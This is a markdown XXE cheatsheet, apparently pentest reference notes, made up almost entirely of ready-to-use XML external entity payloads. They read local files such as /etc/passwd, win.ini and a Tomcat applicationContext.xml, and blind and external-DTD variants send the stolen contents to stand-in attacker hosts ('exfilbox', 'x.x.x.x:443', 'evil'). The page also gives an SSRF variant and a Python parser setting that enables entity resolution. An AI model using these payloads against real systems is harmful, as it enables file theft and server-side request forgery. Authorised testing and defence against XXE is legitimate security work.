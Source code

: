 ```yaml
---
title: XXE
tags:
  - Cheatsheet
---
```


## Testing

Testing with python:

``` python
doc = etree.parse(open('/tmp/tmp.xml'), etree.XMLParser(resolve_entities=True,no_network=False))
```

## Payloads

Basic Local File Read

``` xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

Exfiltrate data (e.g., blind)

``` xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://exfilbox/?%xxe;">]><foo>&blind;</foo>
```

XXE + SSRF

``` xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

XXE using External DTD

``` xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```

``` xml
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```

External DTD handling tags:

``` xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % start "<![CDATA[">
<!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
```

``` xml
    <!ENTITY all "%start;%stuff;%end;">
```

## Cheatsheets

* [Bugbounty XXE Cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md)
* [Specific Case Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
* [OWASP XXE Prevention Cheatsheet](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet)
* [OWASP XXE Testing Guide](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))
